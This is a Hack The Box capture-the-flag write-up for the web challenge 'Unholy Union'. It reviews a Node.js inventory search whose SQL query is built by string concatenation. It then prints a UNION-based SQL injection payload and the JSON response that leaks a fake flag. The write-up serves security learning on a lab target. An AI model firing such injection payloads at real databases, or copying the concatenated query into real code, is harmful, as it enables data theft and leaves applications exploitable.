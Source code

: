 ```yaml
---
title: Unholy Union - Hack The Box
date: 2024-12-11
---
```


# Unholy Union 🎃

## Challenge description

On the outskirts of a forsaken town lies an abandoned warehouse, rumored to store more than just forgotten relics.
Locals speak of an unholy union within its database, where spectral data intertwines with the realm of the living.
Whispers tell of a cursed ledger that merges forbidden entries through mysterious queries. Some say that the warehouse's
inventory system responds to those who know how to merge the right requests. Can you brave the haunted inventory system
and unravel the ghostly union of data before the spirits corrupt the world beyond?

## Challenge overview

In this challenge, we are presented with a web application that features an inventory search function. The application
provides a debug option to view the SQL queries executed on the server, which opens the door to potential exploitation.

![Unholy Union - Overview](/ctf/hack-the-box/challenges/web/unholy-union/overview.png)

## Code Review

### `entrypoint.sh`

The `entrypoint.sh` script is responsible for initializing the database. It creates a `flag` table and inserts the
content of the `/flag.txt` file into it.

```sql
DROP DATABASE IF EXISTS halloween_invetory;
CREATE DATABASE IF NOT EXISTS halloween_invetory;

USE halloween_invetory;

CREATE TABLE IF NOT EXISTS flag (
    flag VARCHAR(255) NOT NULL
);

INSERT INTO flag(flag) VALUES("$(cat /flag.txt)");
```

#### Key Observations:

- The `flag` table stores the flag as a single entry.
- The flag is loaded directly from the `/flag.txt` file.

### `index.js`

The `index.js` file contains the core application logic, including the vulnerable search functionality.

```javascript
app.get("/search", async (req, res) => {
    const query = req.query.query ? req.query.query : "";
    let results = { status: null, message: null };

    try {
        let sqlQuery;

        if (query === "") {
            sqlQuery = "SELECT * FROM inventory";
        } else {
            sqlQuery = `SELECT * FROM inventory WHERE name LIKE '%${query}%'`;
        }

        const [rows] = await pool.query(sqlQuery);
        console.log("Query results:", rows);
        results.status = "success";
        results.message = rows;
    } catch (err) {
        console.error("Error executing query:", err.stack);
        results.status = "failed";
        results.message = err.message;
    }

    return res.json(results);
});
```

#### Vulnerability:

- **SQL Injection**: The `query` parameter is directly concatenated into the SQL statement without sanitization or
  prepared statements, leaving it vulnerable to SQL injection attacks.

## Exploitation

To exploit the SQL injection vulnerability, we can use a **UNION-based SQL injection** technique to extract data from
the `flag` table.

### Step 1: Understanding the Query Structure

The vulnerable query:

```sql
SELECT * FROM inventory WHERE name LIKE '%<query>%';
```

By injecting a malicious payload, we can manipulate the SQL query to retrieve data from the `flag` table. The goal is to
combine the `inventory` query with a `UNION` statement to fetch the flag.

### Step 2: Crafting the Payload

The crafted payload:

```sql
Z' UNION SELECT 1, (SELECT flag FROM flag), 3, 4, 5; -- -
```

::: info Payload Breakdown:

1. **`Z'`**: Closes the `LIKE` clause.
2. **`UNION SELECT`**: Combines the results of the original query with our injected query.
3. **`1, (SELECT flag FROM flag), 3, 4, 5`**: Fetches the flag value alongside dummy values to match the number of
  columns in the original query.
4. **`-- -`**: Comments out the rest of the SQL query to prevent syntax errors.

:::

### Step 3: Sending the Exploit

When the payload is sent as the `query` parameter, the response reveals the flag:

```json
[
    {
        "id": 1,
        "name": "HTB{f4k3_fl4g_f0r_t35t1ng}",
        "description": "3",
        "origin": "4",
        "created_at": "5"
    }
]
```

With the fake flag retrieved, we can use the same technique to get the real flag on the HTB server.

![Unholy Union - Pwned](/ctf/hack-the-box/challenges/web/unholy-union/pwned.png)

## References

- [SQLi Series - Reading Files through SQL Injection - 08](https://0xshin.hashnode.dev/sqli-series-reading-files-through-sql-injection-08)
